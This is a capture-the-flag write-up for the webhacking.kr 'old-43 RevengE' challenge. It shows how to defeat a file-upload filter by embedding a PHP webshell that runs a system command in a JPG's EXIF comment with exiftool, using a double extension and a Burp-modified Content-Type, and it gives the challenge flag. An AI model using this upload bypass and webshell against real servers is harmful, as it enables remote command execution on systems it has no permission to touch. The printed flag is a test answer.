 # Webhacking old-43 RevengE Solution

Here we need to upload our `webshell`, however, it checks whether the uploaded file isn't some specific unallowed file-type, and also trying to resize the image.

So, we will use `exiftool` to insert our webshell in the comment of the `jpg` file.

`exiftool -Comment="<?php echo system('cat /flag'); ?>" webshell.jpg.php`

And then, upload our webshell. I've changed the Content-type using burp

![Change content-type](./images/old-43-RevengE-burp.png)

![FLAG](./images/old-43-RevengE.png)

**Flag:** ***`FLAG{thank_you_q-roland}`*** 

